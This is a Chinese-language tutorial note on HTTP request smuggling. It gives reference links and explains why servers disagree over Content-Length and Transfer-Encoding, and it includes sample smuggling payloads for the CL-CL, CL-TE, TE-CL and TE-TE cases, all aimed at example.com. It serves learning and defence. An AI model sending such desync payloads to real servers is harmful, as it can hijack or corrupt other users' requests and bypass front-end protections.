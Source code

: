 # HTTP_request_smuggling

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**文章**
- [HTTP Desync Attacks: Request Smuggling Reborn | Blog - PortSwigger](https://portswigger.net/blog/http-desync-attacks-request-smuggling-reborn)
- [HTTP Desync Attacks: Smashing into the Cell Next Door ](https://xz.aliyun.com/t/5978) - 上面的翻译版
- [What is HTTP request smuggling? Tutorial & Examples](https://portswigger.net/web-security/request-smuggling)
- [HTTP request smuggling](https://saucer-man.com/information_security/368.html)
- [一篇文章带你读懂 HTTP Smuggling 攻击](https://blog.zeddyu.info/2019/12/05/HTTP-Smuggling/)
- [协议层的攻击——HTTP请求走私](https://paper.seebug.org/1048/)
- [Breaking the chains on HTTP Request Smuggler](https://portswigger.net/research/breaking-the-chains-on-http-request-smuggler)
- [从一道题深入HTTP协议与HTTP请求走私](https://xz.aliyun.com/t/6631)
- [流量夹带(HTTP Request Smuggling) 检测方案的实现](https://blog.riskivy.com/%e6%b5%81%e9%87%8f%e5%a4%b9%e5%b8%a6http-request-smuggling-%e6%a3%80%e6%b5%8b%e6%96%b9%e6%a1%88%e7%9a%84%e5%ae%9e%e7%8e%b0/)

**靶场**
- [ZeddYu/HTTP-Smuggling-Lab](https://github.com/ZeddYu/HTTP-Smuggling-Lab)

**burp扩展**
- [PortSwigger/http-request-smuggler](https://github.com/PortSwigger/http-request-smuggler)

**相关工具**
- [defparam/smuggler](https://github.com/defparam/smuggler) - Python 3 编写的 HTTP 请求走私检测工具

---

# 漏洞产生的原因

HTTP Request Smuggling最初是由WatchFire1于2005年记录下来的，由于难以利用和危害性无法控制，该问题一直处于被忽略的状态。直到2019年的BlackHat USA 上，PortSwigger的James Kettle在他的议题——HTTP Desync Attacks: Smashing into the Cell Next Door中提出了一套较为完善的利用流程，这个漏洞才被人熟知。

上面我们说到了HTTP协议的基本原理，其中一个HTTP请求中可以有多种方式来指定消息的长度，比如：Content-Length、Transfer-Encoding。

但是当一个请求中同时出现了2种方法，就会发生一些问题。HTTP规范(RFC2616)中定义，如果接收的消息同时包含传输编码头字段(Transfer-Encoding)和内容长度头(Content-Length)字段，则必须忽略后者。然而，后端服务器有自己的想法，它会同时处理。

---

# 几种走私请求利用方法

**CL不为0的GET请求**

假设前端代理服务器允许GET请求携带请求体，而后端服务器不允许GET请求携带请求体，它会直接忽略掉GET请求中的Content-Length头，不进行处理。这就有可能导致请求走私。

```
GET / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 44\r\n

GET / secret HTTP/1.1\r\n
Host: example.com\r\n
\r\n
```
前端服务器收到该请求，通过读取Content-Length，判断这是一个完整的请求，然后转发给后端服务器，而后端服务器收到后，因为它不对Content-Length进行处理，由于Pipeline的存在，它就认为这是收到了两个请求，分别是
```
GET / HTTP/1.1\r\n
Host: example.com\r\n
```
```
GET / secret HTTP/1.1\r\n
Host: example.com\r\n
```

**CL-CL**

假设中间的代理服务器和后端的源站服务器在收到类似的请求时，都不会返回400错误，但是中间代理服务器按照第一个Content-Length的值对请求进行处理，而后端源站服务器按照第二个Content-Length的值进行处理,这样便有可能引发请求走私。

此时恶意攻击者可以构造一个特殊的请求

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 8\r\n
Content-Length: 7\r\n

12345\r\n
a
```
中间代理服务器获取到的数据包的长度为8，将上述整个数据包原封不动的转发给后端的源站服务器，而后端服务器获取到的数据包长度为7。当读取完前7个字符后，后端服务器认为已经读取完毕，然后生成对应的响应，发送出去。而此时的缓冲区去还剩余一个字母a，对于后端服务器来说，这个a是下一个请求的一部分，但是还没有传输完毕。此时恰巧有一个其他的正常用户对服务器进行了请求，假设请求如下所示。

```
GET /index.html HTTP/1.1\r\n
Host: example.com\r\n
```
从前面我们也知道了，代理服务器与源站服务器之间一般会重用TCP连接。
这时候正常用户的请求就拼接到了字母a的后面，当后端服务器接收完毕后，它实际处理的请求其实是

```
aGET /index.html HTTP/1.1\r\n
Host: example.com\r\n
```
这时候用户就会收到一个类似于aGET request method not found的报错。这样就实现了一次HTTP走私攻击，而且还对正常用户的行为造成了影响，而且后续可以扩展成类似于CSRF的攻击方式。

**CL-TE**

所谓CL-TE，就是当收到存在两个请求头的请求包时，前端代理服务器只处理Content-Length这一请求头，而后端服务器会遵守RFC2616的规定，忽略掉Content-Length，处理Transfer-Encoding这一请求头。

chunk传输数据格式如下，其中size的值由16进制表示。

```
[chunk size][\r\n][chunk data][\r\n][chunk size][\r\n][chunk data][\r\n][chunk size = 0][\r\n][\r\n]
```
此时恶意攻击者可以构造一个特殊的请求

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
Connection: keep-alive\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
G
```
由于前端服务器处理Content-Length，所以这个请求对于它来说是一个完整的请求，请求体的长度为6，也就是

```
0\r\n
\r\n
G
```
当请求包经过代理服务器转发给后端服务器时，后端服务器处理Transfer-Encoding，当它读取到0\r\n\r\n时，认为已经读取到结尾了，但是剩下的字母G就被留在了缓冲区中，等待后续请求的到来。当我们重复发送请求后，发送的请求在后端服务器拼接成了类似下面这种请求。
```
GPOST / HTTP/1.1\r\n
Host: example.com\r\n
......
```

**TE-CL**

所谓TE-CL，就是当收到存在两个请求头的请求包时，前端代理服务器处理Transfer-Encoding这一请求头，而后端服务器处理Content-Length请求头。

构造数据包

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
12\r\n
GPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```
由于前端服务器处理Transfer-Encoding，当其读取到0\r\n\r\n时，认为是读取完毕了，此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器，后端服务器处理Content-Length请求头，当它读取完12\r\n之后，就认为这个请求已经结束了，后面的数据就认为是另一个请求了，也就是
```
GPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

**TE-TE**

TE-TE，也很容易理解。当收到存在两个请求头的请求包时，前后端服务器都处理Transfer-Encoding请求头，这确实是实现了RFC的标准。不过前后端服务器毕竟不是同一种，因而我们可以对发送的请求包中的Transfer-Encoding进行某种混淆操作，从而使其中一个服务器不处理Transfer-Encoding请求头。从某种意义上还是CL-TE或者TE-CL。

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
Content-length: 4\r\n
Transfer-Encoding: chunked\r\n
Transfer-encoding: cow\r\n
\r\n
5c\r\n
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```
